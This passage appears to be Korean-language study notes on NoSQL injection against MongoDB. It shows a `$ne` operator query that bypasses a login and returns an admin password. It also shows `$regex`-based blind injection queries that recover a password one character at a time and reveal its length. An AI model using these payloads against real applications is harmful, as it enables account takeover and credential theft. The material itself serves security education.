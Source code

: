 ## 2. 예제  NoSQLI

**Figure 4**는 `$ne` 연산자를 사용해 `uid`와 `upw`가 "a"가 아닌 데이터를 조회하는 공격 쿼리와 실행 결과입니다.

|**Figure 4. 연산자를 사용해 계정 정보를 알아낸 모습**|
|---|
|http://localhost:3000/query?uid[$ne]=a&upw[$ne]=a <br> => <br> [{"_id":"5ebb81732b75911dbcad8a19","uid":"admin","upw":"secretpassword"}]|


## 3. Blind NoSQLI 

MongoDB에서는 `$regex`, `$where` 연산자를 사용해 Blind NoSQL Injection을 할 수 있습니다.

|**MongoDB 연산자 공식 문서**|
|---|
|- [https://docs.mongodb.com/manual/reference/operator/query/](https://docs.mongodb.com/manual/reference/operator/query/)|

### Blind NoSQLI 사용함수

|Name|Description|
|---|---|
|`$expr`|쿼리 언어 내에서 집계 식을 사용할 수 있습니다.|
|`$regex`|지정된 정규식과 일치하는 문서를 선택합니다.|
|`$text`|지정된 텍스트를 검색합니다.|
|`$where`|JavaScript 표현식을 만족하는 문서와 일치합니다.|

### $regex

정규식을 사용해 식과 일치하는 데이터를 조회합니다. **Figure6**는 `upw`에서 각 문자로 시작하는 데이터를 조회하는 쿼리의 예시입니다.


**Figure 6. regex 연산자를 활용한 Blind NoSQL Injection**
```
> db.user.find({upw: {$regex: "^a"}})
> db.user.find({upw: {$regex: "^b"}})
> db.user.find({upw: {$regex: "^c"}})
...
> db.user.find({upw: {$regex: "^g"}})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", 
"upw" : "guest"}
```

**길이 획득**
```
{"uid": "admin", "upw": {"$regex":".{5}"}}
=> admin

{"uid": "admin", "upw": {"$regex":".{6}"}}
=> undefined
```
